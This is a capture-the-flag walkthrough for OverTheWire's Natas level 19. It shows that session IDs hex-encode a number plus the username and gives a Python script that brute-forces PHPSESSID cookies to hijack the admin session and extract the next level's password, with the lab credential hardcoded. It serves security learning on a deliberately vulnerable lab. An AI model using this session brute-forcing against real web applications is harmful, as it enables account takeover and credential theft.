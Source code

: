 # 🔐 Natas19 Walkthrough

Loggin on to `natas19` we are greeted with:

***This page uses mostly the same cde as the previous level, but session IDs are no logner sequential...***

That means the `SESSID` pattern is most likely different, not just `1-640` in plain text. Let's try to put a test username and password into the form and check what `SESSID` we get in the coockie cache:

```
INPUT:
    Username: test
    Passoword: test

OUTPUT:
    You are logged in as a regular user. Login as an admin to retrieve 
    credentials for natas20.
```

Let's check the ***cookie cache.***

```
RMB -> inspect -> data -> cookies

PHPSESSID = 33352d74657374
```

This is clearly a hex number, hence the `d`. Let's decode it using [cyber-chef](https://gchq.github.io/CyberChef/)

<p align="center">
  <img src="https://raw.githubusercontent.com/saladtopfive/OTWnatas-walkthrough/main/natas19/image.png" alt="Cyberchef screenshot 1">
</p>


as you can see, the `username` is in the `PHPSESSID`, naturally we should try inputing `admin` in the username cause that will most likely be the admin's session.

```
INPUT:
    Username: admin
    Passoword: admin

OUTPUT:
    You are logged in as a regular user. Login as an admin to retrieve 
    credentials for natas20.
```

Let's check the ***cookie cache*** again.

```
RMB -> inspect -> data -> cookies

PHPSESSID = 3134392d61646d696e
```
decoding...

<p align="center">
  <img src="https://raw.githubusercontent.com/saladtopfive/OTWnatas-walkthrough/main/natas19/image-1.png" alt="Cyberchef screenshot 2">
</p>



```
2d61646d696e = -admin
```

In order to find the admin's correct session now we need to bruteforce the rest of the hex. That's again where python comes in to play.

## 🤖 Python solution

```python
import requests,re,sys

# === CONFIG === 
url = "http://natas19.natas.labs.overthewire.org"
username = "natas19"
natas19_password = "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr"
phpsesidMax = 640
phpsesidMin = 1
# =============

log_info("Starting brute-force on natas19...")

while phpsesidMin <= phpsesidMax:

    # Iterate through chronological hex characters
    stringHex = "".join("{:02x}".format(ord(c)) for c in str(phpsesidMin))
    adminHex = "2d61646d696e" # -admin

    # Inject the SESSID with chronological hex  
    sesID = "PHPSESSID=" + stringHex + adminHex
    log_progress_inline(sesID)

    headers = {'Cookie': sesID}
    response = requests.get(url,headers=headers, auth=(username,natas19_password),verify=False)

    if "You are an admin." in response.text:

        # Get the password from website output
        match = re.search(r"Password:\s*([^\s<]+)", response.text)        
        if match:
            password = match.group(1)
            log_found_inline(f"Admin session found! PHPSESSID={sesID}")
            log_success(f"Natas20 password: {password}")
            break
    phpsesidMin = phpsesidMin + 1
```

The whole script with console formatting is avaliable in the natas19 directory, this code is only a **walkthrough** version with comments so you know whats going on. The output should provide you with the password for natas20  `(:`.

